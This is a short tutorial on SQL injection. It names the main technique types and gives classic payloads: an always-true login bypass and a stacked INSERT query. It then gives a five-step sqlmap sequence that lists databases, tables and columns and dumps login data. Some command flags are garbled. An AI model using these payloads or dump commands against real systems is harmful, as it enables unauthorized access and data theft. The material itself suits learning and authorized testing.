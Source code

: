 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to Application (Server).

## SQL Injection Technique

-	***Union Operator:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-	***Boolean:*** use Boolean condition(s) to verify whether certain conditions are true or false.
-	***Error based:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-	***Out-of-band:*** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-	***Time delay:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```

![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)

![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png)

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find current database name

For URL: `sqlmap –u http://www.nayan.com/item_id=3 - -level=5 - -risk=3 - -current-db - -batch`

For Request: `sqlmap –r Desktop/test.txt - -level=5 - -risk=3 - -current-db - -batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 - -dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename - -tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info - - columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login - -dump`


